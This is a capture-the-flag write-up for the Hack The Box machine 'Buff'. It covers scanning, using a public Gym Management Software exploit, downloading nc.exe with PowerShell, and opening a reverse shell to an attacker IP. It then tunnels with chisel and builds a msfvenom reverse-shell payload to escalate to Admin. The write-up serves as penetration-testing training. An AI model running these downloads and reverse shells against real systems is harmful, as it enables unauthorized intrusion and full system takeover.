


# Buff
## NMAP

* Rust Scan Results

```console
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
```

* NMAP Results

```console
8080/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```


## Web

* Directory busting

```
[07:52:30] 200 -   66B  - /.gitattributes 
[07:52:49] 200 -    5KB - /about.php 
[07:53:33] 200 -    4KB - /contact.php
[07:53:44] 200 -    4KB - /edit.php
[07:53:49] 200 -    4KB - /feedback.php
[07:53:54] 200 -  143B  - /home.php 
[07:54:03] 200 -   18KB - /license
[07:54:03] 200 -   18KB - /LICENSE
[07:54:32] 200 -  309B  - /Readme.md
[07:54:32] 200 -  309B  - /readme.md
[07:54:32] 200 -  309B  - /README.md
[07:54:32] 200 -  309B  - /README.MD
[07:54:32] 200 -  309B  - /ReadMe.md
[07:54:34] 200 -  137B  - /register.php
[07:54:58] 200 -  209B  - /up.php 
[07:54:59] 200 -  107B  - /upload.php
```

* License reveals that it's using `Gym Management Software 1.0`

```bash
searchsploit gym management software
searchsploit -m php/webapps/48506.py .
python2 48506.py -u http://buff.htb:8080/
```

* Post getting the shell we can import `nc.exe` and get a fluid shell as the shell from the exploit is much restricted

```bash
powershell -c "iwr -Uri http://10.10.x.x/nc.exe -O nc.exe"
nc.exe -e cmd 10.10.x.x 9001
```


## Priv-Esc

* by executing linpeas we can observe the Cloudme_1112.exe and it's respective service running on the machine
* to expose the internal service we can use chisel

```text
chisel.exe client 10.10.x.x:8000 R:8888:localhost
./chisel server -p 8000 --reverse
```

* Modifying the known payload with

```
msfvenom -a x86 -p windows/shell_reverse_tcp LPORT=443 LHOST=10.10.x.x --smallest -b "\x00\x0a\x0d" -f python
```

* Executing the payload now gives us an Admin shell

